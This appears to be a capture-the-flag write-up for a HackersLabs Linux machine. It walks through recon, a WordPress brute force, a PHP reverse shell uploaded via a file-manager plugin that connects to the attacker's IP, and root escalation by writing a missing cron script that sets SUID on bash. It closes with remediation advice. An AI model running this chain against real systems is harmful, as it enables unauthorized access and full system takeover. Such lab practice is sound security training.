







# Academy - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `192.168.86.96` |
| **Date** | 22/05/2024 |

---

## 1. Executive Summary

Exploitation of the **Academy** machine began with service enumeration, revealing an Apache web server hosting a WordPress installation. After identifying a valid user via **WPScan**, a brute-force attack on the `xmlrpc.php` interface yielded valid credentials. Initial access was achieved by leveraging the **Bitfile Manager** plugin to upload a PHP reverse shell. System-wide monitoring with **pspy64** revealed a root-level process attempting to execute a non-existent script in `/opt`. Privilege escalation was completed by creating this script and using it to assign SUID permissions to `/bin/bash`.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The target was identified on the local network using `arp-scan`. Initial connectivity and OS fingerprinting were performed.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.96

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.96 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.96 -oN target
```

**[IMAGE: Nmap scan results showing ports 22 and 80 open]**

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.59 |

### 2.2 Service Enumeration (HTTP)

The web server displayed a default Apache page so directory fuzzing was conducted to uncover hidden resources.

```bash
gobuster dir -u http://192.168.86.96/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```



Upon navigating to the site, it was observed that the application redirected to `http://academy.thl/`. To resolve this, the domain was added to the `/etc/hosts` file:

```bash
echo "192.168.86.96  academy.thl" | sudo tee -a /etc/hosts
```

---

## 3. Exploitation (Foothold)

### 3.1 Vulnerability Analysis (WordPress)

Using `wpscan`, the user `dylan` was identified. Subsequently, a brute-force attack was launched against the WordPress login using the `rockyou.txt` wordlist.

```bash
# Enumerating users
wpscan --url http://academy.thl/wordpress/ -e u

# Brute forcing credentials
wpscan --url http://academy.thl/wordpress/ -U dylan -P /usr/share/wordlists/rockyou.txt
```





**Credentials Found:** `dylan:password1`

### 3.2 Initial Access

After logging into the WordPress dashboard, the **Bitfile Manager** plugin was used to upload a PHP reverse shell script.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.93/4444 0>&1'");?>
```



A listener was started on the attacker machine, and the shell was triggered by accessing `http://academy.thl/wordpress/revshell.php`.



#### TTY Interactive Shell
```bash
script /dev/null -c bash 
# CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```

---

## 4. Privilege Escalation

### 4.1 Local Enumeration

Basic enumeration revealed the presence of a user named `debian`. While no immediate SUID or Sudo misconfigurations were found, the monitoring tool `pspy64` was used to observe background processes.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64
```



The output showed that a process with UID 0 (root) was periodically executing `/opt/backup.sh`. However, this script did not exist on the filesystem.

### 4.2 Privilege Exploitation

Since the `www-data` user (or the directory permissions) allowed writing to `/opt`, a malicious `backup.sh` script was created to grant SUID permissions to the bash binary.

```bash
echo "chmod +s /bin/bash" >> /opt/backup.sh
chmod +x /opt/backup.sh
```

After waiting for the automated process to execute the script:

```bash
ls -l /bin/bash
/bin/bash -p
```



---

## 5. Flags & Proof

www-data


root


## 6. Remediation & Hardening

- **Credential Security:** Enforce strong, unique passwords for all WordPress users to prevent brute-force attacks via `xmlrpc.php`.
- **Plugin Management:** Remove or restrict plugins like "Bitfile Manager" that allow arbitrary file uploads.
- **Secure File Permissions:** Restrict write access to the `/opt` directory to root only.
- **Service Hardening:** Disable `xmlrpc.php` in WordPress if it is not required for site functionality.
- **System Monitoring:** Regularly audit automated tasks (cron jobs) to ensure they do not execute non-existent or world-writable scripts.

---

Authored by: [Brutotes]  
[⬅️ Back to Home](../../README.md)